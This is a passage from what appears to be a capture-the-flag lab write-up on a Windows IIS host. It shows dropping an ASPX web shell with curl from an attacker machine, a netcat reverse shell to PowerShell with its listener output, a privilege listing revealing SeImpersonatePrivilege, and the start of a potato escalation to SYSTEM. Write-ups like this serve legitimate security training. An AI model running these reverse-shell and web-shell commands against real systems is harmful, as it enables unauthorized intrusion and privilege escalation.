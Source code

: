We can use this to drop an `ASPX` web shell and gain a shell as the user running the `IIS` web server.

First, we upload the [cmd.aspx](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx) web shell to the server.

```
*Evil-WinRM* PS C:\Users\TEMP\Documents> curl http://10.11.72.22/cmd.aspx -o C:\inetpub\wwwroot\cmd.aspx
```
{: .wrap }

Now, visiting `http://fisher.socmas.corp/cmd.aspx`, we can see our web shell.

![Web 80 Webshell](web_80_webshell.webp){: width="1200" height="600" }

And using it to run the `C:\ProgramData\nc64.exe 10.11.72.22 443 -e powershell` command, we get a shell as the `DefaultAppPool` account.

```
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.39.152] 57858
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
```

Checking the privileges for this account, we see that the `SeImpersonatePrivilege` privilege is enabled.

```
PS C:\windows\system32\inetsrv> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We can use this with one of the potato exploits to escalate to the `SYSTEM` user.

First, we transfer the [EfsPotato.cs](https://github.com/zcgonvh/EfsPotato/blob/master/EfsPotato.cs) to the machine.
